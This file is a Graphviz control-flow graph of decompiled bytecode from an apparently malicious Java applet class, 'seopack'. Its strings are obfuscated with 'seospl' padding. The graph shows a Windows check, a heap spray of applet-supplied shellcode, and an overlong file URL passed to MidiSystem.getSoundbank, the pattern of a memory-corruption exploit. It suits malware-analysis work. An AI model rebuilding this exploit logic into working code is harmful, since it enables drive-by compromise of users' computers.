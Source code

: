 digraph "" {
    "r0 := @this: seopack"
    "push 47"
    "r0 := @this: seopack"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <seopack: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <seopack: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <seopack: java.lang.String repeat(char,int)>"->"pop";
    "push \"seosploseosplsseospl.seosplnseosplaseosplmseosple\""
    "pop"->"push \"seosploseosplsseospl.seosplnseosplaseosplmseosple\"";
    "push \"seospl\""
    "push \"seosploseosplsseospl.seosplnseosplaseosplmseosple\""->"push \"seospl\"";
    "push \"\""
    "push \"seospl\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"seosplwseospliseosplnseospl\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"seosplwseospliseosplnseospl\"";
    "push \"seosplwseospliseosplnseospl\""->"push \"seospl\"";
    "push \"seospl\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <seopack: java.lang.String repeat(char,int)>";
    "store.r r29"
    "staticinvoke <seopack: java.lang.String repeat(char,int)>"->"store.r r29";
    "goto new java.lang.StringBuilder"
    "store.r r29"->"goto new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"seosplfseospliseospllseospleseospl:seospl/seospl/seospl\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"seosplfseospliseospllseospleseospl:seospl/seospl/seospl\"";
    "push \"seosplfseospliseospllseospleseospl:seospl/seospl/seospl\""->"push \"seospl\"";
    "push \"seospl\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r29"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r29";
    "load.r r29"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"seosplZseospl%seosplZseospl%seosplZseospl%seosplZseospl%seosplZseospl%seosplZseospl%seospl\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"seosplZseospl%seosplZseospl%seosplZseospl%seosplZseospl%seosplZseospl%seosplZseospl%seospl\"";
    "push \"seosplZseospl%seosplZseospl%seosplZseospl%seosplZseospl%seosplZseospl%seosplZseospl%seospl\""->"push \"seospl\"";
    "push \"seospl\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r29";
    "load.r r0"
    "store.r r29"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"seosplseosplsseosplseosplcseospl\""
    "load.r r0"->"push \"seosplseosplsseosplseosplcseospl\"";
    "push \"seosplseosplsseosplseosplcseospl\""->"push \"seospl\"";
    "push \"seospl\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"seosplnseosplpseospl\""
    "load.r r0"->"push \"seosplnseosplpseospl\"";
    "push \"seosplnseosplpseospl\""->"push \"seospl\"";
    "push \"seospl\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <seopack: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <seopack: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <seopack: java.nio.IntBuffer[] mem>"
    "virtualinvoke <seopack: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <seopack: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <seopack: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r29";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r29"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "return"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"return";
    "iflt return"->"return";
}
